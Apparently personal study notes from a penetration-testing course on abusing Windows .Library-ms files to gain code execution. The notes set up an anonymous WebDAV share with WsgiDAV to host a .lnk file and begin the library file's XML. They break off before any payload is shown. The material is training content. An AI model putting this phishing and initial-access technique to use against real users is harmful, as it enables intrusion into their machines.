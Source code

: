 ## 11.3 Abusing Windows Library Files

### 11.3.1 Obtaining Code Execution via Windows Library Files

- These files have a **.Library-ms** file extension and can be executed by double-clicking them in Windows Explorer.

#### Installing pip3 and WsgiDAV
```Shell
pip3 install wsgidav
```

If the installation of WsgiDAV fails with **error: externally-managed-environment**, we can use a _virtual environment_ or add **--break-system-packages** to the install command.

#### Create the **/home/kali/webdav** directory to use as the WebDAV share that will contain the **.lnk** file
```Shell
mkdir /home/kali/webdav
```

```Shell
touch /home/kali/webdav/test.txt
```

```Shell
/usr/local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/cha0s/Desktop/kali/webdav/
```

#### Confirm the WebDAV server is running on port 80 by opening http://127.0.0.1 in the browser
![[Pasted image 20230605151559.png]]

#### Create the library file with Visual Studio Code (VSC)
![[Pasted image 20230605152029.png]]
We could also use _Notepad_ to create the file

#### In the menu bar, we'll click on _File_ > _New Text File_. We'll then save the empty file as **config.Library-ms** on the _offsec_ user's desktop.
![[Pasted image 20230605152132.png]]

#### XML and Library Description Version
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
```

#### Add the Name and Version tags providing information about the library
```
<name>@windows.storage.dll,-34582</name>
<version>6</version>
```
The _name_ tag specifies the name of this library. We must not confuse this with an arbitrary name we can just set randomly. We need to specify the name of the library by providing a DLL name and index. We can use @shell32.dll,-34575 or @windows.storage.dll,-34582 as specified on the Microsoft website. 
